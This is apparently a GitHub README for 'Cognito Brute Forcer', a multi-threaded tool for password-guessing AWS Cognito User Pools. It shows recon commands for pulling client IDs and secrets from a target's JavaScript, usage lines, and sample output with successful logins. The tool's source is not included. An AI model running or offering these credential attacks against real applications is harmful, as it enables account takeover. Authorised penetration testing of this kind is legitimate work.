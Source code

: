 
# 🔥 Cognito Brute Forcer - README

## 📖 Overview
This tool is designed for **penetration testers**, **red teamers**, and **bug bounty hunters** targeting AWS Cognito applications. It allows you to brute force username/password combinations against a Cognito User Pool.

The script supports:
✅ Multi-threaded operation
✅ Region discovery and locking
✅ AWS Cognito rate-limit detection (no redundant prints)
✅ Success and "unconfirmed" handling
✅ JSON output
✅ Hacker color-coded console output

---

## ⚙ How AWS Cognito Works (Authentication Flow)
AWS Cognito uses an **App Client ID** and sometimes a **Client Secret** to authenticate against a **User Pool**. Some public-facing apps do not use a Client Secret (mobile/SPA clients), but some do.

- **Client ID** is required.
- **Client Secret** may be required if the Cognito app is configured with it.

Your goal is to find these two values.

---

## 🔍 How to Extract the `client_id` and `client_secret`

### ✅ **Step 1: Scan JavaScript files**
Use tools like `katana`, `gau`, or `hakrawler` to extract JS links from target applications:
```
katana -u https://target.app -jc
```

### ✅ **Step 2: Grep through JS files**
Look for patterns like:
```javascript
"client_id": "xxxxxxxxxxxxxx"
"ClientId": "xxxxxxxxxxxxxx"
"clientSecret": "xxxxxxxx"
"UserPoolId": "us-east-1_ABC123"
etc.
```

Regex pattern example:
```
grep -E 'client_id|ClientId|clientSecret|UserPoolId' *.js
```

### ✅ **Step 3: Identify Cognito Client Usage**
You might see AWS Amplify or Cognito-specific configs like:
```javascript
const config = {
    region: 'us-east-1',
    userPoolId: 'us-east-1_ABC123',
    clientId: '4abcd1234567890xyz',
    clientSecret: 'abcdsecretvalue'
}
```

This `clientId` and `clientSecret` is exactly what you need for this tool.

---

## 🛠 Usage Example

### ✅ **Combo Mode (user:pass or user,pass)**
```
python3 cognito_brute_final_safe.py <client_id> <client_secret> -c combos.txt --json -t 30
```

### ✅ **Separate User and Password Lists**
```
python3 cognito_brute_final_safe.py <client_id> <client_secret> -u users.txt -p passwords.txt --json
```

### ✅ **Output Example (Color-coded terminal):**
```
[❌ INVALID] us-east-1 => user1:wrongpass -> Invalid credentials
[🔎 UNCONFIRMED] us-east-1 => admin:CorrectPassword -> User not confirmed
[🐸 SUCCESS] us-east-1 => admin:CorrectPassword
[🚨 RATE LIMITED] us-east-1 => user2 -> Password attempts exceeded. Skipping user...
```

### ✅ **JSON Output (`results.json`) Example:**
```json
[
  {
    "region": "us-east-1",
    "username": "admin",
    "password": "password123",
    "status": "unconfirmed"
  },
  {
    "region": "us-east-1",
    "username": "admin",
    "password": "AdminPassword",
    "status": "success",
    "response": "{AWS Cognito Response}"
  }
]
```

---

## 🚀 Features
✅ Multi-threaded for high speed
✅ **Region locking** (stops testing other regions once correct one found)
✅ **Rate-limiting detection** (stops retesting locked users)
✅ Stops brute-forcing after first valid/unconfirmed hit per user
✅ JSON output (`results.json`)
✅ Combo or user/pass mode

---

## ❌ Rate Limiting Behavior
✅ The tool prints "[🚨 RATE LIMITED]" **once per user**
✅ Immediately stops testing that user
✅ Continues testing remaining users

Example:
```
[🚨 RATE LIMITED] us-east-1 => admin -> Password attempts exceeded. Skipping user...
```

---

## ⚠ AWS Cognito Edge Cases
- **UserNotConfirmedException**: Valid credentials but user never confirmed email/phone.
- **NotAuthorizedException**: Bad password or locked account.
- **Rate Limit**: AWS Cognito stops processing after multiple bad attempts. Handled cleanly.

---

## 📌 Real World Usage Tip
- Run this on targets using **AWS Amplify, Cognito Auth**
- Look for JS references to `AmazonCognitoIdentity`, `AWS.config.credentials`, or `new CognitoUser()`
- Works great during bug bounty token extraction tests

---

## 💣 Future Enhancements (if needed)
✅ Retry logic
✅ Export `rate_limited_users` list
✅ Multiprocessing mode
✅ Auto-confirm unconfirmed users (if possible)

---

## ✅ Credits
Created for **Offensive Security / Red Team Use** by Specters.

---

Run at your own risk. AWS Cognito is sensitive to rate limits. And you will burn valid accounts if not careful...

---

